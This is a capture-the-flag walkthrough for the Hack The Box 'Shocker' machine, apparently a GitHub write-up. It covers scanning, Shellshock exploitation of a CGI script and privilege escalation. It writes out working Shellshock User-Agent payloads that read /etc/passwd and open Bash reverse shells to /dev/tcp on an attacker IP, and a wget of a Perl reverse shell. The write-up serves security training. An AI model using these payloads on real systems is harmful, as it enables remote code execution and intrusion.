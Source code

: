 # Shocker Hack The Box Tips

# ${{\color{purple}Initial Recon}}\ $

``nmap -sC -sV -oA shocker 10.10.10.56``

![image](https://user-images.githubusercontent.com/123066149/226357310-160d9812-0522-4479-9126-c9dfb936d848.png)

``nmap --script vuln 10.10.10.56``

![image](https://user-images.githubusercontent.com/123066149/226357364-2f1a6ef5-cb76-45aa-9dbe-1aa2565ce426.png)

``nikto -host http://10.10.10.56``

![image](https://user-images.githubusercontent.com/123066149/226357618-4e8827c0-36ac-4262-8d96-6f39bb768a17.png)

# ${{\color{purple}Initial Foothold}}\ $

``dirb http://10.10.10.56/cgi-bin/ -w /usr/share/wordlists/seclists/Discovery/Web-Content/CGIs.txt -t 50``

![image](https://user-images.githubusercontent.com/123066149/226358323-1477f05a-58f6-4cb4-a09b-0f501c1fab3c.png)

``gobuster dir -u http://10.10.10.56/cgi-bin/ -w /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -t 30 -x cgi,php,html``

![image](https://user-images.githubusercontent.com/123066149/226358774-9ff94040-b230-4b9f-80cd-4192b8cadbb0.png)

``gobuster dir -u http://10.10.10.56/cgi-bin/ -w /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -x sh``

![image](https://user-images.githubusercontent.com/123066149/226358987-9f981b40-2e78-425f-b55c-8e6cc4501907.png)

# ${{\color{purple}Exploitation}}\ $

https://www.sevenlayers.com/index.php/125-exploiting-shellshock

``curl -A "() { ignored; }; echo Content-Type: text/plain ; echo ; echo ; /usr/bin/id" http://10.10.10.56/cgi-bin/user.sh``

![image](https://user-images.githubusercontent.com/123066149/226359725-99a8e315-f5cd-4c97-a665-d35ee18b483c.png)

``curl -A "() { ignored; }; echo Content-Type: text/plain ; echo ; echo ; /bin/cat /etc/passwd" http://10.10.10.56/cgi-bin/user.sh``

![image](https://user-images.githubusercontent.com/123066149/226359889-1dfca83c-36ec-414c-8a28-9d8e413639c8.png)

``curl -H 'User-Agent: () { :; }; /bin/bash -i >& /dev/tcp/10.10.16.3/4444 0>&1' http://10.10.10.56/cgi-bin/user.sh``

![image](https://user-images.githubusercontent.com/123066149/226360049-1b28e5c0-6da6-45b4-b402-8f3cd40f2f6a.png)

``tcpdump -i tun0 icmp``

![image](https://user-images.githubusercontent.com/123066149/226360977-54c45416-dd99-4277-a907-282565f43809.png)

``() { :; }; /bin/bash -i >& /dev/tcp/10.10.16.3/8888 0>&1``

![image](https://user-images.githubusercontent.com/123066149/226362205-e35b0eb5-850a-43c9-8981-381bd14795b5.png)


# ${{\color{purple}Privilege Escalation}}\ $

``sudo -l``

![image](https://user-images.githubusercontent.com/123066149/226363790-6c615050-105d-452c-99fd-d788831cab73.png)

``wget http://10.10.16.3:80/perl_pentest_monkey.pl && chmod +x perl_pentest_monkey.pl``

![image](https://user-images.githubusercontent.com/123066149/226364007-ae3f7cf5-6268-44e3-8ee2-49e646b769cd.png)

![image](https://user-images.githubusercontent.com/123066149/226364266-decade33-b8d1-4b2a-a900-04efe2f7cd1e.png)

![image](https://user-images.githubusercontent.com/123066149/226364474-3b850292-695e-42c4-a7db-0081e34dc9bf.png)

# ${{\color{purple}Point of Improvement}}\ $

* Don't hesitate to use several extensions during the recon phase ``-x sh,pl``
